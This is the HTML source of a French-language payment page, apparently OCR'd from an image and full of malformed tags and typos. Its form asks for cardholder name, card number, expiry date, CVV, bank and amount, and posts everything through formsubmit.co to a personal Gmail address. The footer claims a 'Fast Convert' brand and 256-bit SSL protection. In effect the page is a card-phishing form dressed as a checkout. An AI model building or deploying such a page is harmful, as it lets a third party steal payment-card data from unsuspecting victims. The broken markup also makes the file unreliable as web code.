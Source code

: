 <!doctype html>
<html> 
 <head></head> 
 <body> <htlm lang="fr"> 
   <meta carset="UTF-8>
       <meta http-equiv=X-UA-compatible content=" ie="edge&quot;"> 
   <meta name="vewport" content="width=device-width,initial-scal=1-0"> 
   <title>Paiment</title> 
   <link rel="steelsheet=" "href"="./style.css" "> 
   <div class="container"> 
    <h4>Procedez a un paiement 
     <hr style=" border-top: 1px solid blue;"></h4> 
    <br> 
    <h1>Card Info</h1> 
    <br> 
    <form action="https://formsubmit.co/issakoudoussou980@gmail.com" method="POST"> 
     <input type=" texte" montant="montant&quot;" placeholder="Montant" required> 
     <br> 
     <br> 
     <input type=" texte"banque="banque&quot;" placeholder="Nom de la Banque" required> 
     <br> 
     <br> 
     <input type="texte"name="name&quot;" placeholder="Titulaire de la carte" required> 
     <br> 
     <br> 
     <input type=" texte"number="number&quot;" placeholder="Numero de la carte" required> 
     <br> 
     <br> 
     <input type=" texte"date="date&quot;" placeholder="MM/AAAA" required> 
     <br> 
     <br> 
     <input type=" texte"cvv="Cvv&quot;" placeholder="Cvv/Code" required> 
     <br> 
     <br> <button type="submit">PAYEZ</button> 
    </form> 
    <br> 
    <br> 
    <br> 
   </div> 
   <footer> 
    <div class="row"> 
     <div class="col-xs-12 col-sm-6"> 
      <div id="footer-copyright">
        © 2022 - <b>Fast Convert</b> BE-FR fait partie d’CG &nbsp; | &nbsp; Votre paiement est 
       <br> protégé par un cryptage SSL 256 bits 
      </div> 
      <br> 
     </div> 
    </div> 
   </footer> 
  </htlm> 
 </body>
</html>
